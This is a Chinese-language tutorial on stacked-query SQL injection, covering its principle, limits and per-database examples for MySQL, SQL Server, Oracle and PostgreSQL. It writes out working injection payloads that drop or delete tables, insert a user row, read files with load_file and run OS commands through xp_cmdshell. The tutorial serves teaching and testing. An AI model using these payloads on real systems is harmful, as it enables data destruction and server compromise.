 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


lcamry	2016-08-04 原文地址;http://www.sqlinjection.net/stacked-queries/   本篇属于集合原作者的思路和个人想法结合的一篇产物。Stacked injection 汉语翻译过来后，国内有的称为堆查询注入，也有称之为堆叠注入。个人认为称之为堆叠注入更为准确。堆叠注入为攻击者提供了很多的攻击手段，通过添加一个新 的查询或者终止查询，可以达到修改数据和调用存储过程的目的。这种技术在SQL注入中还是比较频繁的。

## 0x01 原理介绍

在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

## 0x02 堆叠注入的局限性

堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMi5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

Ps：此图是从原文中截取过来的，因为我个人的测试环境是php+mysql，是可以执行的，此处对于mysql/php存在质疑。但个人估计原文作者可能与我的版本的不同的原因。虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在我们的web系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，我们建议使用union（联合）注入。同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

## 0x03 各个数据库实例介绍

本节我们从常用数据库角度出发，介绍几个类型的数据库的相关用法。数据库的基本操作，增删查改。以下列出数据库相关堆叠注入的基本操作。

### 一. Mysql

1.	新建一个表 select * from users where id=1;create table test like users;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNC5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

执行成功，我们再去看一下是否新建成功表。

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNS5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

2. 删除上面新建的test表select * from users where id=1;drop table test;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNy5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfOC5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

3. 查询数据select * from users where id=1;select 1,2,3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfOS5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

加载文件  select * from users where id=1;select load_file('c:/tmpupbbn.php');

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTAucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

4. 修改数据select * from users where id=1;insert into users(id,username,password)

values('100','new','new');

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTEucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTIucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

### 二. Sql server

1. 增加数据表select * from test;create table sc3(ss CHAR(8));

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjAucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

2. 删除数据表select * from test;drop table sc3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjIucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

3.	查询数据select 1,2,3;select * from test;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTkucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

4. 修改数据select * from test;update test set name='test' where id=3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjMucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjQucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

5. sqlserver中最为重要的存储过程的执行

select * from test where id=1;exec master..xp_cmdshell 'ipconfig'

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMjUucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

### 三. Oracle

上面的介绍中我们已经提及，oracle不能使用堆叠注入，可以从图中看到，当有两条语句在同一行时，直接报错。无效字符。后面的就不往下继续尝试了。

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMy5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

### 四. Postgresql

1. 新建一个表    select * from user_test;create table user_data(id DATE);

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfNi5wbmdAYmFzZUB0YWc9aW1nU2NhbGUmYW1wO3c9MTAwMA==.jpg)

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTMucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

可以看到user_data表已经建好。

2. 删除上面新建的user_data表select * from user_test;delete from user_data;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTUucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

3. 查询数据select * from user_test;select 1,2,3;

![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTYucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)

4. 修改数据 select * from user_test;update user_test set name='modify' where name='张三';



![img](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHAvaDUtc2hhcmUua3NzLmtzeXVuLmNvbS9NckdQY0sxdC9pbWdfMTgucG5nQGJhc2VAdGFnPWltZ1NjYWxlJmFtcDt3PTEwMDA=.jpg)